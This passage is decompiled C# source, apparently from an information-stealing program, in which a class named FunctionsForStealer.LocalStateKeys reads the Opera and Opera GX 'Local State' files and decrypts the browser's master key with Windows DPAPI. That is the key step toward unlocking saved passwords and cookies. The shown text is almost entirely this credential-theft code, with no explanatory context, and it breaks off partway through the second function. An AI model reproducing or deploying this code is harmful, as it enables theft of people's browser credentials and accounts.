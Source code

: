 ```csharp

			// Token: 0x0600001C RID: 28 RVA: 0x00003124 File Offset: 0x00001324
			public static byte[] GetKeyOpera()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001D RID: 29 RVA: 0x00003254 File Offset: 0x00001454
			public static byte[] GetKeyOperaGX()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera GX Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
```
